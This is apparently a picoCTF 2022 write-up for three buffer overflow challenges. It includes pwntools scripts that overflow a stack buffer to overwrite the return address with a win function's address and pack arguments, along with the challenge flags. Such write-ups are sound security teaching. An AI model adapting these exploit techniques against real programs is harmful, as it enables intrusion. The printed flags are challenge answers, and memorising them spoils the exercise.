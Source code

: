```yaml
---
title: "Buffer Overflow - picoCTF 2022 Writeup"
date: "2022-04-12T11:59:59.999Z"
description: "picoCTF Writeup"
author: "ZyphenSVC"
slug: "posts/2022-04-12-picoctf-buffer-overflow"
---
```


# Buffer Overflow 0

Spam A's

> picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}

# Buffer Overflow 1

![Vuln](./vuln.png)

When opening up the file in ghidra we have three functions we need to keep track of, main, vuln, and win. 

We load into the vuln function from main, in which we see what is above.

We seem to have to overflow the buffer for `local_2c`, then set it to the win address to get the flag.

Luckily, ghidra variables are set in a way that the variable names are equivalent to the amount of space the variable takes. In this case, `2c` space in hex.

```python
from pwn import *

bin = context.binary = ELF("./vuln")

#p = process(bin.path)
p = remote("saturn.picoctf.net", 62247)

payload = b""
payload += 0x2c*b"A"
payload += p64(bin.symbols["win"]) + b"\n"
p.sendline(payload)
p.interactive()
```

Using the script above, we got the flag

> picoCTF{addr3ss3s_ar3_3asy_c76b273b}

# Buffer Overflow 2

This time it is the same idea as before, however we have a problem. 

![Win](./win.png)

We have to add arguments to the win function to able to "win".

We are able to do this by packing the negative hex variables after calling the win function.

This replaces param1 and param2.

```python
from pwn import *

bin = context.binary = ELF("./vuln2")

#p = process(bin.path)
p = remote("saturn.picoctf.net", 55779)

payload = b""
payload += 0x70*b"A"
payload += p32(bin.symbols["win"])
payload += asm("nop")*4
payload += pack(-0x35010ff3)
payload += pack(-0xff20ff3)
p.sendline(payload)
p.interactive()
```

This is the flag.

> picoCTF{argum3nt5_4_d4yZ_31432deb}

